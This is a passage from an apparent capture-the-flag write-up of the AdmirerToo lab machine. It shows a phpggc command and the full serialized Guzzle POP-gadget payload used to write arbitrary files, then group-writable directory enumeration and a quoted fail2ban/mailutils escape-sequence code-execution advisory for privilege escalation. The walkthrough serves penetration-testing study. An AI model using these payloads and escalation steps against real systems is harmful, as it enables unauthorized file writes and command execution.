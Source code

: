 Generated the POP gadget like the PoC does:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ echo 'this is a test' > /tmp/test.txt

┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /tmp/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A15%3A%22this+is+a+test%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

![Untitled]({{page.screenshots}}Untitled%2014.png)

```bash
jennifer@admirertoo:/opt/opencats$ ls -al /dev/shm/test.txt 
-rw-r--r-- 1 devel devel 58 Apr 24 20:19 /dev/shm/test.txt
jennifer@admirertoo:/opt/opencats$ cat /dev/shm/test.txt 
[{"Expires":1,"Discard":false,"Value":"this is a test\n"}]
```

Enumerated devel group writable directories:

```bash
jennifer@admirertoo:~/test$ find / -group devel 2>/dev/null
/opt/opencats/INSTALL_BLOCK
/usr/local/src
/usr/local/etc
jennifer@admirertoo:/tmp$ ls -al /usr/local/src/                                                                                                                                                                                            
total 8                                                                                                                                                                                                                                     
drwxrwxr-x  2 root devel 4096 Jul  7  2021 .                                                                                                                                                                                                
drwxr-xr-x 10 root root  4096 Jul  7  2021 ..
```

## RCE vulnerability in mailing action using mailutils (mail-whois)

[Build software better, together](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm)

> Command `mail` from mailutils package used in mail actions like `mail-whois` can execute command if unescaped sequences (`\n~`) are available in "foreign" input (for instance in whois output).
[...]
*The '~!' escape executes specified command and returns you to mail compose mode without altering your message. When used without arguments, it starts your login shell. The '~|' escape pipes the message composed so far through the given shell command and replaces the message with the output the command produced. If the command produced no output, mail assumes that something went wrong and retains the old contents of your message.*
[...]
**Which menas that as long as attacker can control stdin that goes to mail (from mailutils package) command - code execution could be achieved. 
Then - the interesting configuration file from fail2ban perspective is `/etc/fail2ban/action.d/mail-whois.conf` fragment:
[...]